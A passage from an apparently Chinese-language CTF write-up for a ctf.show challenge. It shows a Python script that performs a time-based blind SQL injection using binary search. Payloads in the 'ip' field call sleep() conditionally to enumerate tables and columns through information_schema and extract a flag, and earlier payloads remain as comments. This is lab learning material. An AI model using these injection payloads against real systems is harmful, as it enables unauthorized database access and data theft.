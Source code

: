 ```python
            break;
    if j == 126:
        break
    table += chr(j)
    print(table.lower())   # 得到 ctfshow_flagx,ctfthow_info                                                                                        
```

有点慢，在写个二分法：

```python
# @Author: yanmie

import requests

url = "http://1a8ae547-99fa-47fe-b1a2-7a163a579dcf.chall.ctf.show/api/"

# payload = "if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},sleep(2),0)"
# 得到 ctfshow_flagx,ctfthow_info
# payload = "if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{},1))>{},sleep(2),0)"
# 得到 id,flaga,info
payload = "if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{},1))>{},sleep(3),0)"
# 得到 flag 

i = 0
result = ""

while True:
    i += 1
    head = 0
    tail =127
    while head<tail:
        mid = (head+tail)//2
        data = {
            "debug" : 1,
            "ip" : payload.format(i,mid)
        }
        try:
            response = requests.post(url=url,data=data,timeout=2)
            # print(head,tail,mid)
            tail = mid
        except Exception as e:
            head = mid+1
    if head == 0:
        break
    result += chr(head)
    print(result.lower())

```

